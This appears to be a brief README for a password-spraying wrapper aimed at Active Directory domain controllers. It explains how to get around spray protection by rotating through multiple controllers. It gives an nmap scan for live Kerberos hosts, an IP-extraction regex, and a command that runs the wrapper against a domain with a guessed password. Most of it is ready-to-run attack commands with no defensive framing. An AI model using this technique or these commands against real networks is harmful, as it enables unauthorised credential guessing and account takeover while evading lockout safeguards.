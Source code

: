 It so happens that a domain controller is protected from password spraying and you cannot use kerbrut on it. But the bypass of this protection is the rotation of the domain controllers in a single spray.

to scan for alive domain controllers:

`nmap -iL list_of_domain_controllers -p 88 -Pn -n -sS -oA dcip --open`

convert output to the list of ip adresses with the following regex:

`\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}`

to run wrapper:

`python3 wrapper.py --username_file outfile --dc_ip_list dc_open_vpn --domain specify_domain_here --password 'October2021'`

to follow its output:

`tail +lf output`